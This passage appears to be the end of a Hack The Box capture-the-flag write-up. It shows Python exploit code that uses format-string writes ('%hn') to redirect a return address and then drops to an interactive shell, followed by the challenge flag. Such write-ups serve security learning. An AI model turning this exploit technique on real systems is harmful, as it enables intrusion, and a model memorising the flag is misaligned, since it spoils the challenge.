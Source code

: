 ```py
    n += 1
    print(n)
    a += 1

alloc(0x80, b'%' + str(stack - 0x18 & 0xffff).encode() + b'c' + b'%14$hn\n')
free(4)
alloc(0x80, b'%' + str((exe.address + 0x124b) & 0xffff).encode() + b'c' + b'%43$hn\n')

io.sendlineafter(b': ', b'2')
io.sendlineafter(b': ', b'4')

io.interactive()
```

## Flag

```
HTB{k1d5_g0_t0_th3_pl4ygr0und_u_g0_und3rgr0und}
```
